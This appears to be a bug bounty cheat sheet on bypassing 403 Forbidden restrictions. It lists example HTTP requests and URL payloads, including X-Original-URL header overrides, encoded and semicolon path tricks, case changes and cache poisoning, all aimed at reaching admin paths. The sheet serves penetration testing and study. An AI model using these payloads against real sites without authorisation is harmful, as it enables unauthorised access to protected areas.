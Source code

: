 
1. Using "X-Original-URL" header

```
GET /admin HTTP/1.1
Host: target.com
```

Try this to bypass

```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. Appending **%2e** after the first slash

```
http://target.com/admin => 403
```

Try this to bypass

```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) slash (/) and semicolon (;) in the URL

```
http://target.com/admin => 403
```

Try this to bypass

```
http://target.com/secret/. => 200
http://target.com//secret// => 200
http://target.com/./secret/.. => 200
http://target.com/;/secret => 200
http://target.com/.;/secret => 200
http://target.com//;//secret => 200
```

4. Add "..;/" after the directory name

```
http://target.com/admin
```

Try this to bypass

```
http://target.com/admin..;/
```

5. Try to uppercase the alphabet in the url

```
http://target.com/admin
```

Try this to bypass

```
http://target.com/aDmIN
```

6. Via Web Cache Poisoning

```
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```

## Tools

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Bypass/Bypass%20403.md#tools)

- [Bypass-403 | Go script for bypassing 403 forbidden](https://github.com/daffainfo/bypass-403)

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Bypass/Bypass%20403.md#references)

- [@iam_j0ker](https://twitter.com/iam_j0ker)
- [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web)

